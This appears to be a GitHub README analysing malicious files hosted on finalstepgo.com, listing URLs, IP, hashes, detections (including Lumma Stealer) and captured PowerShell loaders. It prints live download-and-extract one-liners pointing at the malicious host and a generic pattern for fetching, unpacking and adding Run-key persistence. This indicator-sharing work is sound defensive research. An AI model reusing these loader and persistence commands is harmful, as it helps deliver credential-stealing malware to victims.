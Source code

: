 # Malicious File Analysis

This repository contains an analysis of potentially malicious files hosted at the domain `finalstepgo.com`. Below is a table summarizing the details of each file, including file types, hashes, detection verdicts, and associated PowerShell scripts used for execution.

| URL | IP | ASN | File Type | Size | Hash 1 | Hash 2 | Hash 3 | Archive Details (Modified, Filename, Size, MD5, File Type) | Detections | PowerShell Script |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| [finalstepgo.com/uploads/il22.zip](https://finalstepgo.com/uploads/il22.zip) | 185.255.122.133 | #30860 Virtual Systems LLC | Zip archive data, deflate compression | 1.7 MB (1714598 bytes) | bca16f882810081cb32748749bc3b3b1 | 9793ad1d9e270d4bad64cf70720eebbefd74b15c | c2ffa5c0bb241ec42c82bd96e407882be9089f5a6949fcb403d75d40bcdadcda | 2024-09-28 07:26, unins000_[3MB]_[unsign].exe, 3.8 MB, 8721699b29c1426b4436ae40192280e6, PE32 executable (GUI) Intel 80386, 10 sections | | `$mTMPD6X8='https://finalstepgo.com/uploads/il22.zip'; $tk4wMJU=$env:APPDATA+'\Ueb2AL6'; Start-BitsTransfer -Source $mTMPD6X8 -Destination $AAW19F1; Expand-Archive -Path $AAW19F1 -DestinationPath $tk4wMJU -Force;` |
| [finalstepgo.com/uploads/il33.zip](https://finalstepgo.com/uploads/il33.zip) | 185.255.122.133 | #30860 Virtual Systems LLC | Zip archive data, deflate compression | 1.5 MB (1505043 bytes) | d8de3fc756e44c203d77aebcabb881c5 | 509d8b3479ddbe9aa8bea5ce11fd625643d5c43e | f2fe375b56b096384279f11746224a7f6f4a24f7ffff15dc7c0fea4b26eacd1d | 2024-09-28 07:46, BulkSMSMultiModem(Demo)_[3MB]_[unsign].exe, 4.0 MB, 9d7ab5897fe11671c4aeeeb5f1599014, PE32 executable (GUI) Intel 80386, 5 sections | | `$j967rvVm='https://finalstepgo.com/uploads/il33.zip'; $3cPhU0No=$env:APPDATA+'\3bqbRyEA'; Start-BitsTransfer -Source $j967rvVm -Destination $v2d2cLn9;` |
| [finalstepgo.com/uploads/trr9.txt](https://finalstepgo.com/uploads/trr9.txt) | 185.255.122.133:443 | #30860 Virtual Systems LLC | ASCII text, long lines, no terminators | 337 B | a6c05faf990324a716d3ba6674ffeee6 | 25b5712ffa8d3247598b4d594d7e56a3ad0d5434 | abf42a3d48909645a34458ca052d726bdfc6033aee7a58d469b34d0e752f8fe6 | | | Not applicable |
| [finalstepgo.com/uploads/il11.zip](https://finalstepgo.com/uploads/il11.zip) | 185.255.122.133 | #30860 Virtual Systems LLC | Zip archive data, deflate compression | 1.7 MB (1691913 bytes) | 7a85d23ec2f561b1ed339997f4a15f93 | 046345b27e2ff77b661f13bf2b08646a6ecd4198 | 74859fe958e537eeff649ec31957c0745366b0b1f8d3710b8a31e06059b503e0 | 2024-09-28 07:34, RemBlankPwd_[3MB]_[1sig].exe, 4.0 MB, 1ecd7e1516e51d0778f4dd5a48a8df88, PE32 executable (GUI) Intel 80386, 11 sections | | `$oluAE7Dk='https://finalstepgo.com/uploads/il11.zip'; $rtfflBeM=$env:APPDATA+'\W7nzivF8'; Start-BitsTransfer -Source $oluAE7Dk -Destination $rtfflBeM;` |
| [finalstepgo.com/uploads/il11.txt](https://finalstepgo.com/uploads/il11.txt) | 185.255.122.133:443 | #30860 Virtual Systems LLC | ASCII text, long lines, no terminators | 366 B | 063d1917dfcc075690cd9f7253b3974a | d210792d0aeafb484e169aba33e4a4243babb74d | 4337242a9077230b296e66064b044a2cd390b6a2a7dbefae6f66bdd0bf5eee51 | | | Not applicable |
| [finalstepgo.com/uploads/il22.txt](https://finalstepgo.com/uploads/il22.txt) | 185.255.122.133:443 | #30860 Virtual Systems LLC | ASCII text, long lines, no terminators | 359 B | b6ef25d05289446e4a213753af23ba53 | 96516cc8c923dfc6ce7d8fd2e7034557824f2d92 | 184b6a800c6fc568f6c8e20a3619fb4856823ddc1d530a64812993a7044f237c | | ThreatFox (malicious, Lumma Stealer), mnemonic secure DNS (malicious, Sinkholed), Quad9 DNS (malicious, Sinkholed) | Not applicable |
| [finalstepgo.com/uploads/tr222.zip](https://finalstepgo.com/uploads/tr222.zip) | 185.255.122.133 | #30860 Virtual Systems LLC | Zip archive data, deflate compression | 13 MB (12752028 bytes) | a40dad83041f5242dac7765235ba9897 | 14f4892480f04fb616291101af4c285caee8a857 | 9a31550508a115c46940a410ce10e7825bcf95961ddfc8ec4fde191580b3a548 | 2024-09-22 16:45, Feel.Your.Sound.exe, 790 MB, ea077b88a4c9d0943217c2858fff5ff8, PE32+ executable (GUI) x86-64, 12 sections | VirusTotal (malicious, 15/62 detected) | `$X0N2L10k='https://finalstepgo.com/uploads/tera9.zip'; $eaBolo6=$env:APPDATA+'\unJqnydS'; Start-BitsTransfer -Source $X0N2L10k -Destination $eaBolo6;` |
| [finalstepgo.com/uploads/il33.txt](https://finalstepgo.com/uploads/il33.txt) | 185.255.122.133:443 | #30860 Virtual Systems LLC | ASCII text, long lines, no terminators | 348 B | e785810a437b9f326744115f89a44ca3 | 0039fc1470982d2e27daa5b6ae1d618b69916576 | 4df97fd0d069bdf633111574ddc5adc887dd9c9bf06456da295ee94faeb9e39b | | ThreatFox (malicious, Lumma Stealer), mnemonic secure DNS (malicious, Sinkholed), Quad9 DNS (malicious, Sinkholed) | Not applicable |
| [finalstepgo.com/uploads/il44.zip](https://finalstepgo.com/uploads/il44.zip) | 185.255.122.133 | #30860 Virtual Systems LLC | Zip archive data, deflate compression | 3.4 MB (3364661 bytes) | ebf62ace877034507b83250102b40e15 | 0bad5f2014aee5c525a1e79c54e94640d593f48e | 7485cbe78882e3102642041a57044d69eedaa5b3c47bf9c0f5b1c713654eae20 | 2024-09-29 18:51, BrightnessControl.exe, 8.2 MB, 2b8796d87de0592eda9f038a075ff1d6, PE32 executable (GUI) Intel 80386, 7 sections | | Not applicable |

## Summary of PowerShell Scripts

The PowerShell scripts associated with these files were used to:

1. Download ZIP files from the specified URLs.
2. Extract the contents to the AppData folder.
3. Remove the downloaded archive file.
4. Set up persistence via Windows Registry by adding the extracted executables to the startup.

The following PowerShell commands were common across these scripts:

```powershell
Start-BitsTransfer -Source <URL> -Destination <DestinationPath>;
Expand-Archive -Path <DownloadedFile> -DestinationPath <ExtractedLocation> -Force;
New-ItemProperty -Path 'HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' -Name '<RegistryName>' -Value '<ExecutablePath>' -PropertyType 'String';

